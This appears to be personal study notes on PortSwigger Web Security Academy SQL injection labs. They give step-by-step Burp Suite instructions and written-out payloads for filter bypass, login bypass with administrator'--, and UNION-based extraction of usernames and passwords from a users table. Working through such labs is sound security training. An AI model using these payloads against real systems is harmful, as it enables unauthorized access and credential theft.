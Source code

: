 ### sql injection

hint: internal server error on http route.  
 '+OR+1=1-- #will query all #SELECT \* FROM products WHERE catergory = '' or 1+1--' equivalent.
ex: https://0aa000d504428d79c0e803da00430076.web-security-academy.net/filter?category=%27+OR+1=1--

### SQL injection vulnerability allowing login bypass

Use burp suite to intercept and modify login.
modify username with parameter administrator'--

### SQL union injection

2 requirements:
How many columns are being returned from the original query?
Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

Continue adding null values until the error disappears and the response includes additional content containing the null values.  
ex: /filter?category='+UNION+SELECT+NULL,NULL-- HTTP/1.1  
-NULL is a special keyword that matches any data type.
-add NULLs if 'internal server error'
ex: '+UNION+SELECT+NULL,NULL,NULL--

### Lab: SQL injection UNION attack, finding a column containing text

Use Burp Suite to intercept and modify the request that sets the product category filter.
Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:
'+UNION+SELECT+NULL,NULL,NULL--
Try replacing each null with the random value provided by the lab, for example:
'+UNION+SELECT+'abcdef',NULL,NULL--
If an error occurs, move on to the next null and try that instead.

### SQL injection UNION attack, retrieving data from other tables

Find number of columns using NULL  
'+UNION+SELECT+NULL,NULL--  
Check columns for string values  
'+UNION+SELECT+'string','string2'--
Replace strings to search for username and password on table users
'+UNION+SELECT+username,+password+FROM+users--
right click - show response in browser, open new tab, paste.
get administrator password, and paste into login.

### SQL injection UNION attack, retrieving multiple values in a single column

intercept cateogry, move to repeater  
in repeater find column size  
'+UNION+SELECT+NULL,'string'--  
locate string for username/password injection  
concat username and password into string starr is used to seperate values so you can find easily  
'+UNION+SELECT+NULL,username||'\*'||password+FROM+users--  
right click response show response in browser  
grab administrator password and login
